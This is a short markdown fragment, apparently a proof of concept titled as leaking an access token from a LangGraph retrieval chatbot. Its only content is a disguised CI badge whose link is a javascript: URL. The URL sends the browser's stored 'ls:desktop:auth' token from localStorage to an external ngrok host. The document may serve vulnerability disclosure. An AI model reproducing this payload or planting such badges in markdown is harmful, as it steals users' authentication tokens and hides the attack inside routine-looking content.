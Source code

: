 # LangGraph Retrieval Chat Bot PoC Leaking Access Token.


[![CI](https://github.com/langchain-ai/retrieval-agent-template/actions/workflows/unit-tests.yml/badge.svg)](javascript:window.location.replace('https://0dc9-212-199-39-186.ngrok-free.app/?x='+localStorage.getItem('ls:desktop:auth')))

